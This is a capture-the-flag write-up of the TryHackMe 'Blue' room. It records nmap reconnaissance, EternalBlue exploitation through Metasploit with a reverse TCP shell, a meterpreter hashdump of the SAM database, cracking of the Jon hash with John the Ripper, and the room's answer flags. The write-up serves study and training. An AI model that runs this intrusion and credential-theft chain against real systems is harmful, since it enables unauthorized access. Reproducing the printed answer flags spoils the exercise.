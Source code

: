 # Blue

Author: Corbett Stephens || July 14, 2021 || Contact: corbettdstephens@gmail.com

Blue is a TryHackMe room that explores the "Eternal Blue" exploit from older versions of Windows. 

The room can be found [here](https://tryhackme.com/room/blue).

---

The first thing I do is start up openvpn that way I can connect to the TryHackMe rooms.

`sudo openvpn nullbett.ovpn`

## Reconnaissance
Host ip address: `10.10.48.230`

Next, I ping the host to see if I can get a response.

`ping 10.10.48.230`

Response:

<pre>
PING 10.10.48.230 (10.10.48.230) 56(84) bytes of data.
64 bytes from 10.10.48.230: icmp_seq=1 ttl=125 time=180 ms
64 bytes from 10.10.48.230: icmp_seq=2 ttl=125 time=202 ms
64 bytes from 10.10.48.230: icmp_seq=3 ttl=125 time=224 ms
64 bytes from 10.10.48.230: icmp_seq=4 ttl=125 time=144 ms
64 bytes from 10.10.48.230: icmp_seq=5 ttl=125 time=167 ms
64 bytes from 10.10.48.230: icmp_seq=6 ttl=125 time=189 ms
^C64 bytes from 10.10.48.230: icmp_seq=7 ttl=125 time=212 ms
64 bytes from 10.10.48.230: icmp_seq=8 ttl=125 time=235 ms
^C
--- 10.10.48.230 ping statistics ---
8 packets transmitted, 8 received, 0% packet loss, time 7010ms
rtt min/avg/max/mdev = 144.010/193.973/235.202/28.333 ms
</pre>

We can see that the host is up and running, so now we can start with a nmap scan.

I ran the command:

`nmap -p0-1000 -sC -sV -vv 10.10.48.230 -oN initial.nmap`

- "-p0-1000" scans the first 1000 ports
- "-sC" uses the default script for enumeration
- "-sV" tries to specify versions
- "-vv" extra verbosity
- "-oN initial.nmap" writes the output to the file initial.nmap

Looking at the [output](https://github.com/nullbett/tryhackme/blob/main/blue/initial.nmap) I see that three ports are open.

<pre>
PORT    STATE SERVICE      REASON  VERSION
135/tcp open  msrpc        syn-ack Microsoft Windows RPC
139/tcp open  netbios-ssn  syn-ack Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds syn-ack Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows
</pre>

I also get a hint that a potential user is "Jon".

The next thing I would do is run another nmap scan to look for vulnerablities. This could be done in the initial nmap scan, but I decided to use two seperate scans. If stealth was a concern then I would do the previous steps differently.

To scan for vulnerabilites I used the same command but changed the script to "vuln".

`nmap -p0-1000 --script vuln -sV -vv 10.10.48.230 -oN vuln.nmap`

Luckily, the results yield some intersting information.

<pre>
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
</pre>

Do to the vuln script I can see that this system is vulnerable to smb-vuln-ms17-010 which allows for remote code execution.

A simple google search of "smb-vuln-ms17-010" will pull up the information about this vulnerability. Reading the first line of the [article](https://nmap.org/nsedoc/scripts/smb-vuln-ms17-010.html) we can see that ms17-010 is also known as "EternalBlue". This is helpful information because it will make it easier to find a module within Metasploit.

---

## Gaining Access

I now want to try to gain futher access on this machine. I have a potential attack vector by using the information on EternalBlue.

The first thing I do is fire up Metasploit!

I use Kali Linux which has Metasploit already installed. All I have to do is hit the home button and search for Metasploit. Once the metasploit shell is spawned the fun can begin. I now look for a module that uses the EternalBlue exploit.

This can be done via: `search eternalblue` in the metasploit shell.

The results I find are as shown below:

![](./pictures/ms_module.png)

The module I want is **exploit/windows/smb/ms17_010_eternalblue** because this uses a windows versions prior to windows 8.

An easy way to select the module you want to use is to enter `use <number>`, so I would enter "use 2" in this case.

Each module has required fields that have to be set before an exploit can be ran. This can be found by entering `options` into the shell. 

![](./pictures/module_options.png)

I need to set the RHOSTS which is the target host that we are attacking. I do this by entering:

`set RHOSTS 10.10.48.230`

In a normal TCP/IP connection, the client will issue a request to the server. The server will then respond the client. The client will respond again a connection will be established. If the server is using a firewall then this normal type of connection will be blocked. When reverse tcp is used, the server initiates a connection to the client (hense reverse). This allows for the client to reply to the server request and establish a connection. The playload that needs to be used is **windows/x64/shell/reverse_tcp**. 

The payload is set by doing `set payload windows/x64/shell/reverse_tcp`.

To run the exploit enter `exploit` or `run`.

If the exploit is successful then a DOS (disk operationg system) shell will appear as shown below.

![](./pictures/dos.png)

If I run "whoami" it says that I am "nt authority\system" which has very sensative user privlages.

I want upgrade this shell to a meterprerter shell as there are a lot of benefits to using a meterpreter shell. I used this [article](https://www.hackingarticles.in/command-shell-to-meterpreter/) to help me figure out how to upgrade my shell. 

To upgrade: `sessions -u 1`

![](./pictures/shell_2_meterpreter.png)

Now that we have our meterpreter shell, we can run "getsystem" to ensure that we are indeed "nt authority\system".

Just because our user is system, doesnt mean that the process is. We will want to switch our process to one that is running "nt authority\system". 


Meterpreter has a handy command to dump the SAM database. SAM is the system accounts manager. The SAM database stores passwords locally. By using the `hashdump` command I can get this data and try to make something useful with it.

I get the following data:

<pre>
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
</pre>

In this case, I am interested in Jon. I created a file named "jon.hash" and put the hash values into the file. To crack this hash, I used John the Ripper which comes default on Kali Linux. I ran the following commands:

`john jon.hash --format=NT --wordlist=./rockyou.txt`
`john jon.hash --format=NT --show`

- "jon.hash" the file reading from
- "--format=NT" NT is the format of the hash that I got from the hash dump. It is common on Windows systems. I had to figure this out by researching the type of hash.
- "wordlist=./rockyou.txt" This uses a large file of common passwords to try to find the user password for Jon.
- "--show" Show the output.
<pre>
Jon:**alqfna22**:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
</pre>

Username: Jon
Password: **alqfna22**

---

## Find Flags
This part is just for answer the questions on TryHackMe.

The first flag can be found in the at the root.

Flag 1: `flag{access_the_machine}`

The second flag is found in config
C:\Windows\system32\config

Flag 2: `flag{sam_database_elevated_access}`

Flag 3 can be found in C:\Users\Jon\Documents

Flag 3: `flag{admin_documents_can_be_valuable}`

---

# Conclusion

This room allowed me to fully execute the famous EternalBlue exploit from top to bottom. In the process, I strengethed my skills in nmap, Metasploit, and John the Ripper. I started my reconnaissance with nmap, developed my attack vector with Metasploit, and derived user credentials with John the Ripper.

Thank you,
Corbett